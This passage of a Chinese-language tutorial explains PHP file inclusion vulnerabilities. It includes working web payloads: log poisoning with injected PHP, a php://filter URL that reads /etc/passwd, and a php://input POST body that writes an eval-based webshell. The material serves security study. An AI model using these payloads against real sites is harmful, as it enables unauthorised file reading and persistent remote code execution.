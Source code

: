 ## 2.2 远程文件包含 
攻击者可以通过包含远程服务器上的文件来执行恶意代码。  
想要利用远程文件包含，需要 php 的配置文件中，将 `allow_url_fopen` 和 `allow_url_include` 配置为 `On`  
- `allow_url_fopen`：控制着是否允许使用 `fopen()` 函数通过 URL 打开远程文件，包括打开本地文件系统以外的 URL。  
- `allow_url_include`：控制着是否允许使用 `include`、`require`、`include_once`、`require_once` 等PHP文件引入函数来引入远程文件，包括打开本地文件系统以外的 URL。  

# 3. 利用方式  
---
## 3.1 利用日志文件  
当已经爆破出中间件的日志记录文档路径，可以利用 php 文件包含特性，去恶意利用日志文档来暴露信息。步骤如下：  
1. 爆破获取中间件的日志记录文档路径。  
2. 在访问网站时，恶意构造 url，使其包括 `<?php phpinfo(); ?>` 等类似内容。并进行访问。  
此步骤最好使用 burpsuite 来进行访问，如果通过浏览器构造恶意代码，`<>` 等字符会被转义为 URL 编码，后续利用会失败。  
3. 使用包含恶意代码的 url 访问后，恶意代码会被写入到记录日志中。  
4. 具备文件包含漏洞处，直接包含日志记录文档，完成利用。  

## 3.2 利用PHP伪协议  
### 3.2.1 php://filter  
`php://filter`是PHP中的一个输入输出流过滤器（input/output stream filter），可以用于对数据流进行过滤和转换。  
```PHP
php://filter/<filter_name>/resource  
```
- `filter_name` ：要使用的过滤器名称  
- `resource` ：要进行处理的数据源，可以是文件路径、URL 或其他支持的数据源。  
- 过滤器的输出会被返回，可以通过 `file_get_contents` 或 `fread` 等函数读取。  
**利用方法：**  
通过**base64**编码，尝试获取指定页面的内容，进行代码审计。  
```HTML
http://example.com/page.php?url=php://filter/read=convert.base64-encode/resource=/etc/passwd  
```
**特点：**  
- 无需依赖`allow_url_fopen`和`allow_url_include`  

### 3.2.2 php://input  
`php://input` 可以获取 HTTP POST 请求的数据。可以通过 HTTP POST 请求提交恶意代码，然后通过该伪协议读取并执行。  
**利用方法：**  
在存在文件包含漏洞处，直接添加 php://input，然后再 post 数据包中输入恶意代码。  
```PHP
url：http://example.com/page.php?url=php://input  
  
post data：  
<?php fputs(fopen("shell.php", "w"), "<?php eval(\$_POST['a']);?>") ?>  
```
**特点：**  
- 需要开启`allow_url_include`  
- 如果使用了：`enctype="multipart/form-data"`，此伪协议无效。  
